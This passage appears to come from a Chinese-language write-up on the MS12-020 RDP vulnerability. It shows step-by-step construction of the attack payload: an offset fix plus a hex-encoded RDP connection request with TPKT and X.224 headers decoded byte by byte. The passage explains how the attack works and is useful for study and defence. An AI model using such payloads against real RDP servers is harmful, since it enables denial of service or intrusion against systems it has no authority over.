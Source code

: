 <center><img src ="/images/post/posts/work/ms12_020_termdd/a7.png"/><br>图七：初始化数据包单元</center>

### 根据数据包格式要求构造攻击载荷
1. 修正偏移0x158    
	00 00 00 00 -> TS_UD_CS_CORE::serverSelectedProtocol   

2. 编码RDP连接请求    
	03000013 0E E0 0000 0000 00 01 00 0800 00000000       
	
	TPKT头部 (长度 = 19字节):      
	03 -> TPKT: TPKT版本 = 3  
	00 -> TPKT: 保留 = 0   
	00 -> TPKT: 报文长度 - 高部位   
	13 -> TPKT: 报文长度 - 底部位 (总共 = 19 字节)   
	
	X.224 数据 TPDU:   
	0E -> X.224: 长度指示器 = (14 字节)    
	E0 -> X.224: 类型 = 0xE0 = 连接确认   
	00 00 -> X.224: 目的引用 = 0   
	00 00 -> X.224: 源引用 = 0  
	00 -> X.224: 类和选项 = 0  
	01 -> RDP协商消息 (TYPE_RDP_NEG_REQ)  
	00 -> 标志 (0)  
	08 00 -> RDP_NEG_REQ 长度 (8 字节)   
	00 00 00 00 -> RDP_NEG_REQ: 选择协议 (PROTOCOL_RDP)    

